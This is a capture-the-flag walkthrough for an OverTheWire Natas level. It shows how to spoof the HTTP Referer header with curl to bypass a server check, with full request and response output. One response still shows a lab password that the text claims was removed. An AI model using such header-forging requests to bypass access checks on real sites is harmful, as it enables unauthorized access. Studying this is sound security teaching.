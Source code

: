 # OverTheWire - Natas - Level 5

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas4` password in the previous challenge, it can be
used to log into http://natas4.natas.labs.overthewire.org:

![The main page](images/level_05/00_main_page.png)

## Initial Analysis

The web page instructions are:

> Access disallowed. You are visiting from "" while authorized users should come
> only from "http://natas5.natas.labs.overthewire.org/"

It appears that the web server is checking one of the HTTP headers for a
specific value. This does not really provide any security as the user is able to
change these headers. Try to figure out what header is being used.

## Approach Strategy

1. Use "Developer Tools" to look at the network traffic
1. Add HTTP headers to the requests to satisfy the web server check

## Step-by-Step Solution

Browsers have "Developer Tools" that can be used to troubleshoot problems that
happen on web sites. These tools can also be used to exploit security
vulnerabilities. These tools are also called the "F12 Tools" as the `F12` key is
used to run them:

![Developer Tools](images/level_05/01_developer_tools.png)

Clicking the "Refresh page" link on the web page will re-send the network
requests for the page:

![Network Requests](images/level_05/02_network_requests.png)

Two things happened here.

The first thing is that the description box on the page now has a new message:

> Access disallowed. You are visiting from
> "http://natas4.natas.labs.overthewire.org/index.php" while authorized users
> should come only from "http://natas5.natas.labs.overthewire.org/"

This is _very_ important and needs some explanation.

When a browser makes an HTTP request it sends a collection of headers. Each
header has a name and a value. In this instance, the header of interest is
called `Referer`. This header tells the web server which web page the request is
coming from.

When this challenge page was first loaded, it said _You are visiting from ""_.
That's because there was no referrer page. However, when clicking the "Refresh
page" link, the browser sends the current page URL as the referrer. The solution
to the challenge is probably to fake the `Referer` header to be from the site
"http://natas5.natas.labs.overthewire.org/".

The second thing that happened is that the `Network` tab in the Developer Tools
now lists the HTTP requests that were made. The first (highlighted) request is
for the `index.php` page itself. The other requests are for dependencies of the
web page. One type of dependency is Cascading Style Sheet (`.css`) files
defining page style such as fonts, colours, and layout. Another type of
dependency is JavaScript (`.js`) files that execute code in the browser to make
the web page interactive.

Clicking the highlighted request line for `index.php` displays its details, and
scrolling down into the `Request Headers` section shows the `Referer` header
(highlighted):

![Index Request](images/level_05/03_index_request.png)

The next step is to alter the header. Right clicking the a request from the list
brings up the context menu and there is a `Edit and Resend` menu item:

![Context Menu](images/level_05/04_context_menu.png)

This brings up an area that has the request and all its headers. The request can
be re-sent many times to see how the server responds:

![Edit and Resend](images/level_05/05_edit_and_resend.png)

Rats! For some reason Firefox does not allow the `Referer` to be changed. There
are still many ways to make the request, though.

The `curl` command is used to make HTTP requests. Compared to using a browser it
definitely has a learning curve, but it's an important tool to know. Starting
over using `curl` instead of the browser, the first task is to fetch to main
webpage:

```
$ curl http://natas4.natas.labs.overthewire.org/index.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.58 (Ubuntu) Server at natas4.natas.labs.overthewire.org Port 80</address>
</body></html>
```

The response is the HTML for a page that says that credentials need to be
supplied. The `-u` switch for `curl` can do this:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Progress! The `natas4` password has of course been removed from the text above.
It still has the message that the visit is coming from `""`. Now to use the `-H`
flag to set the `Referer` header. This will double-check that the web server is
indeed looking for this header:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    -H 'Referer: foo' \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "foo" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

And now for the final request:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] http://natas4.natas.labs.overthewire.org/index.php -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is [REMOVED: NATAS5 PASSWORD]
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

There it is: `Access granted` and the `natas5` password (removed).

## Key Takeaways

- HTTP requests contain headers that can be manipulated
- Browsers can resend requests but apparently some headers are off limits
- The `curl` command is a valuable tool, particularly if a group of requests
  need to be scripted
- Web servers should always be suspicious about any headers or data being sent
  by the user

## Beyond the Challenge

It's always a good idea to think about other solutions. While there are numerous
other tools that could be used to solve this challenge, `curl` is fairly common
and good to learn.
